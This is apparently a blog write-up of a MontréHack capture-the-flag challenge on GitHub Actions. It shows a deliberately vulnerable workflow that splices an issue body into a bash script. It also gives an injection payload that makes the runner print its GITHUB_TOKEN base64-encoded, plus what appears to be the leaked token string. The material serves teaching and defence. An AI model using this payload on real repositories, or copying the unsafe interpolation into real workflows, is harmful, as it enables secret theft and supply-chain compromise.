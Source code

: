 ```yaml
---
title: Supply Chain Security - Github Action
author: Zhibeau
date: 2024-06-26 20:09:00 -0400
img_path: https:////raw.githubusercontent.com/Zhibeau/zhibeau.github.io/main/_posts/24_06_26/
categories: [Cybersecurity, DevOps]
tags: [Supply Chain Security, DevOps]
---
```


# MontréHack June 2024 Meetup

In the June 2024 meetup event of MontréHack, the host [François Proulx](https://www.linkedin.com/in/francoisp/) gave an introductive presentation about supply chain security. He also created an examplar CTF [Github repository](https://github.com/fproulx-boostsecurity/gravy-overflow/tree/main) for us to get our hands dirty in the supply chain security. The following parts of this post will show the command injection vulnerability in the CTF.

# Basics of the Supply Chain Security

Supply chain security involves safeguarding the entire process of producing and delivering goods, from sourcing raw materials to delivering the final product to consumers. This infographic highlights various threats that can compromise the integrity of a supply chain, categorized into source threats, dependency threats, and build threats. Source threats include unauthorized changes (A), compromised source repositories (B), and building from modified sources (C). Dependency threats involve the use of compromised dependencies (D). Build threats encompass compromising the build process (E), uploading modified packages (F), compromising the package registry (G), and using compromised packages (H).

In the CTF, we delved into the threat E. This vulnerability is presented in GitHub Actions.

![supply-chain-threats.svg](supply-chain-threats.svg)

# Github Action - Workflow

The `.yml` file configures the workflow for GitHub Actions workflow. This workflow is triggered by specific events related to issues, issue comments, and pull requests. Here's a breakdown of how this workflow is structured:

```yml
name: Poutine Level 0
on:
  issues:
    types: [opened, edited]
  issue_comment:
    types: [created, edited]
  pull_request_target:
    types: [opened, synchronize]
    branches:
      - main
  pull_request:
    types: [closed]
    branches:
      - main

permissions: {}

concurrency:
  group: ${{ github.workflow }}
  cancel-in-progress: false
```

- **Workflow Triggers (`on`)**:
  
  - **issues**: Triggered when an issue is opened or edited.
  - **issue_comment**: Triggered when an issue comment is created or edited.
  - **pull_request_target**: Triggered when a pull request targeting the `main` branch is opened or synchronized.
  - **pull_request**: Triggered when a pull request targeting the `main` branch is closed.

- **Permissions**: Specifies permissions for the workflow. In this case, no additional permissions are set globally (`permissions: {}`).

- **Concurrency**: Ensures that only one instance of the workflow runs at a time for a given group, which is set to the workflow name.

- **Jobs**: The workflow defines four jobs, each with specific conditions and steps:
  
  ```yml
  jobs:
    fries:
      runs-on: ubuntu-latest
      timeout-minutes: 1
      if: github.event_name == 'issues'
      permissions:
        id-token: write
      env:
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        FLAG_GRAVY_OVERFLOW_L0_FRIES: ${{ secrets.FLAG_GRAVY_OVERFLOW_L0_FRIES }}
      steps:
        - uses: step-security/harden-runner@63c24ba6bd7ba022e95695ff85de572c04a18142 # v2.7.0
          with:
            egress-policy: audit
        - uses: rlespinasse/github-slug-action@v4
          with:
            short-length: 8
        - name: Check for profanities in issue body
          id: check_profanities
          run: |
            echo "Checking issue body for profanities..."
            PROFANITIES_LIST="bad|disguting|horrible"
            if echo "${{ github.event.issue.body }}" | grep -qiE "$PROFANITIES_LIST"; then
              echo "Profanity detected in issue body. Please clean up the language."
              exit 1
            else
              echo "No profanities found in issue body."
              exit 0
            fi
  ```
  
  **fries**:
  
  - **Runs-on**: `ubuntu-latest`
  - **Timeout**: 1 minute
  - **Condition**: Runs only if the event is an issue event.
  - **Permissions**: Allows writing to the ID token.
  - **Environment Variables**: Uses `GITHUB_TOKEN` and a secret for a flag.
  - **Steps**:
    - Uses the `step-security/harden-runner` action for auditing egress policy.
    - Uses the `rlespinasse/github-slug-action` to generate a short slug.
    - Runs a script to check for profanities in the issue body.

# Command injection in jobs

 In the `script` part of the job `fries`, we can see the body of the issue is inserted in the bash code: `if echo "${{ github.event.issue.body }}"`, so, we can inject our payload in the body of the issue to exfiltrate sensitive information in `env`: `${{ secrets.GITHUB_TOKEN }}`

To trigger the build process, we need to create or edit an issue, the payload `" | (echo $GITHUB_TOKEN | base64); then ls #` should be included in the body of the issue. The information is encoded in base64 because if the Actions will protect the sensitive env (it will be `***` if it is not encoded![fries_injection.png](fries_injection.png)

  After edited the issue, the action is running, we can check the output in the `Actions` tab:

  ![fries_exfiltration.png](fries_exfiltration.png)

  After decoding, the token in plain text can be seen:

```bash
root@aaa:~# echo "Z2hzXzduSzBEZjFWdmZuUTZQcWhPTDVoVmVwRExNR0pYNDE2T2NTbwo=" | base64 -d
```